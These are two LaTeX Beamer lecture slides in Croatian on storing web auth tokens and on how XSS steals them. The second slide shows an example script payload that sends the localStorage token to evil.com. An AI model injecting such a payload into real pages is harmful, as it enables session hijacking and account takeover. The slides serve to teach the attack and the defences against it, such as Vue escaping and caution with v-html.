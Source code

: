 \begin{frame}{Token storage: opcije}
\begin{tabular}{@{}lp{4.5cm}p{4.5cm}@{}}
  \toprule
  & \textbf{localStorage} & \textbf{Memorija (ref/store)} \\
  \midrule
  Persistencija & Ostaje nakon refresh/zatvaranja & Gubi se na refresh \\
  XSS ranjivost & Da - JS može čitati & Da - ali teže iskoristivo \\
  Jednostavnost & Jednostavno & Treba refresh token flow \\
  \bottomrule
\end{tabular}

\vspace{0.6em}
Za ovaj kolegij koristimo \textbf{localStorage} jer je jednostavniji. U produkcijskim aplikacijama razmotrite httpOnly cookie za refresh token.

\vspace{0.4em}
Access token ima kratki životni vijek (15 min) pa čak i ako je ukraden, šteta je ograničena. Refresh token služi za tiho obnavljanje.
\end{frame}

\begin{frame}{XSS napad: kako krade token}
XSS (Cross-Site Scripting) - napadač ubaci JavaScript u stranicu koji se izvršava u kontekstu korisnika.

\vspace{0.4em}
\begin{enumerate}
  \item Napadač pronađe input koji se renderira bez escapanja
  \item Ubaci: \texttt{<script>fetch('https://evil.com?t='+} \\ \texttt{localStorage.getItem('token'))</script>}
  \item Kad žrtva posjeti stranicu, skripta se izvrši u njezinu browseru
  \item Token je poslan napadaču - napadač se može prijaviti kao žrtva
\end{enumerate}

\vspace{0.6em}
Vue automatski escapa template izraze (\texttt{\{\{...\}\}}) što štiti od većine XSS-a. Opasnost je \texttt{v-html} direktiva koja renderira sirovi HTML - koristiti samo za trusted sadržaj.
\end{frame}

